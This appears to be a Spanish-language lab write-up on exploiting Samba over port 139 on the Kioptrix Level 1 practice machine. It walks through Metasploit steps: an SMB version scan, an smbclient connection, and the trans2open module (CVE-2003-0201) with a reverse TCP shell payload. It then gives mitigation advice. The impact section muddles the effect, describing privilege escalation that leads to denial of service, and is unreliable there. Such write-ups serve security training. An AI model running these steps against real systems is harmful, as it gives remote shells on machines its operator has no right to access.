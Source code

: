 #  Vulnerabilidad en puerto 139 / protocolo smb

### Descripción
SMB (Server Message Block) es un protocolo cliente-servidor que controla el acceso a archivos y directorios enteros, así como a otros recursos de la red, como impresoras, routers o interfaces compartidas con la red. Una vulneración a este protocolo podría significar el acceso no autorizado de un usuario y la perdida o alteración de información valiosa.

### Sistema Vulnerable
El problema fue identificado y probado en Kioptrix level 1

### Gravedad del problema
Alta

### Reproducción
1.  Obtener  versión del protocolo smb
  - Acceder a la consola de metasploit a través del comando msfconsole en la terminal
  - Ejecutar el módulo smb_version el comando “use auxiliary/scanner/smb/smb_version” 
  - Verificar los parámetros que se necesitan establecer ejecutando la función “options” 
  - Establecer la ip destino en RHOSTS ejecutando “set RHOSTS” más la ip de kioptrix
  - Ejecutar el comando “run” para obtener la versión del protocolo smb 

2. Establecer conexión con el protocolo smb
  - Modificar el archivo smb.conf ejecutando el comando “sudo nano /etc/samba/smb.conf 
  - Al final del grupo global escribir “client min protocol = NT1” y guardamos con ctrl + o 
  - Reiniciar servicio samba ejecutando el comando “sudo service smbd restart” 
  - Establecer conexión con el comando “smbclient -L \\\\ip de kioptix\\” y presionar enter cuando solicite password 
 
3. Exploit 
  - Acceder a la consola de metasploit a través del comando msfconsole
  - Buscar modulo trans2open ejecutando “search trans2open”
  - Poner en uso el modulo trans2open ejecutando “use” más el número del módulo que coincide con el sistema de kioptrix, Linux
  - Establecer la ip destino en RHOSTS ejecutando “set RHOSTS” más la ip de kioptrix 
  - Establecer el payload con el comando “set payload linux/x86/shell_reverse_tcp
  - Ejecutar comando exploit

### Impacto
Un atacante puede abusar de la vulnerabilidad encontrada y escalar privilegios para llevar a cabo un ataque de denegación de servicio contra el sistema vulnerable con el fin de bloquear el servicio para el que está destinado. Este ataque puede afectar, tanto a la fuente que ofrece la información como puede ser una aplicación o el canal de transmisión, así como a la red. En las redes, el peligro de un ataque basado en el protocolo SMB es particularmente alto, ya que, por motivos de compatibilidad, en la red suelen estar activadas todas las versiones de SMB, porque así lo requieren las impresoras u otros dispositivos de red conectados. También es importante tener en cuenta que la información que se encuentra en el sistema vulnerable queda expuesta al atacante y se corre el riesgo de perderla.

### Mitigación
- Bloquear el acceso a los puertos SMB desde redes que no sean de confianza.
- Bloquear el acceso a los puertos tcp / 445 y tcp / 139 en el perímetro de la red evitará ataques de partes que no sean de confianza. Sin embargo, esta no es una solución viable para el medio ambiente donde se necesitan servicios de archivos e impresión para usuarios legítimos.

### Referencias
- https://nvd.nist.gov/vuln/detail/CVE-2003-0201
- https://www.ionos.es/digitalguide/servidores/know-how/server-message-block-smb/
